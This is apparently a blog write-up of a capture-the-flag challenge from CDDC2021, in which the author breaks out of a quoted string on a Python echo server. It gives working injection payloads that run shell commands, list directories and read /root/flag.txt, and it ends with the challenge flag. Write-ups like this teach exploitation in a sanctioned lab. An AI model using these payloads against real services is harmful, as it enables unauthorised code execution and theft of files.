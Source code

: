```yaml
---
title : "POP IT [Pwn]"
categories: CDDC2021
---
```


Python code injection attack on an echo server. Third pwn challenge in CDDC2021.

# Challenge Description

Your last mission, for now, looks promising. It’s some kind of an echo server. I think you can exploit it easily.

Target: 18.136.182.104 port 60230

# Solution

For challenges like these, I like to spam weird characters. Luckily my first one gave me syntax error: `"`.

This tells me that they are not escaping my quote but is using it to terminate the string, hence having an unclosed quote at the back. Something like this:

```python
print(""")
```

I took a brave guess that it is Python because of the syntax error message. So I tried to list the current directory and echo it back.

```
input> ");import os;print(os.system("ls"))#

Program output:
```

*Note: this effectively does something like this (for what I had in mind at this point in time)*
```python
print("");import os;print(os.system("ls"))#")
```

So our payload needs to be in the form of `");<code>#`
{: .notice--info}

Hmmm, that means that it doesn't use `print` to echo back. I played around a bit and got this:

```
input> ", end="asdf");#

Error: sendBack() expects 1 argument, 2 received
```

Sounds like some websocket is being used. So I just need to find out the variables it has and I can leak the current directory, and get the flag.

```
input> "+'|'.join(dir()))#

Program output: conn|functionPointer|ram|userData|userDataPointer
```

`dir()` returns all variables available in the current scope, which is perfect. `conn` should be the websocket connection. So I can do something like this:

```
input> ");import os;conn.send('\n'.join(os.listdir(os.getcwd())));#

Program output: lib64
opt
tmp
usr
home
run
libx32
proc
srv
var
dev
media
boot
lib
root
etc
sbin
bin
mnt
lib32
sys
.dockerenv
```

Changing the directory for a bit:

```
input> ");import os;conn.send(' '.join(os.listdir(os.getcwd() + 'root')));#

Program output: .bashrc .profile buffer_overflow.py exploit.sh memory flag.txt
```

*Wait what? Buffer overflow???? XD*

# Final Payload
```
");conn.send(open('/root/flag.txt').read());#
```

Flag: `CDDC21{Py780n_!$_N!c3}`
